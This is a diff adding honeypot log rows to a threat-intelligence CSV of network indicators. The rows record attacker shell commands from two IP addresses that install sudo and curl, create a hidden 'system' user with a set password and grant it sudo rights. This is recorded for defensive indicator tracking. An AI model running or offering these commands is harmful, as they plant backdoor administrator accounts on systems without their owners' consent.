

Before and after one commit to CyDefOps/project-killchain, a CSV file: IOCs/network-indicators/honeypot/attack-pattern/full-14d.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/IOCs/network-indicators/honeypot/attack-pattern/full-14d.csv
+++ b/IOCs/network-indicators/honeypot/attack-pattern/full-14d.csv
+row 1508: 188.166.228.153: [
+row 1509: {
+row 1510: timestamp: "2023-11-07T20:16:24.164052Z"
+row 1511: event: "command_input"
+row 1512: input: "apt update && apt install sudo curl -y && sudo useradd -m -p $(openssl passwd -1 7pmb9Zp6) system && sudo usermod -aG sudo system && sudo usermod -aG sudo system"
+row 1513: session: "cb76c37b82db"
+row 1514: }
+row 1515: {
+row 1516: timestamp: "2023-11-07T20:16:24.164514Z"
+row 1517: event: "command_input"
+row 1518: input: "openssl passwd -1 7pmb9Zp6"
+row 1519: session: "cb76c37b82db"
+row 1520: }
+row 1521: ]
+row 1522: 143.110.190.199: [
+row 1523: {
+row 1524: timestamp: "2023-11-07T20:42:38.315556Z"
+row 1525: event: "command_input"
+row 1526: input: "apt update && apt install sudo curl -y && sudo useradd -m -p $(openssl passwd -1 KXWVrz2v) system && sudo usermod -aG sudo system && sudo usermod -aG sudo system"
+row 1527: session: "d9f03ecb0321"
+row 1528: }
+row 1529: {
+row 1530: timestamp: "2023-11-07T20:42:38.316051Z"
+row 1531: event: "command_input"
+row 1532: input: "openssl passwd -1 KXWVrz2v"
+row 1533: session: "d9f03ecb0321"
+row 1534: }
+row 1535: ]
```
Also changed, not shown: 1 other file.
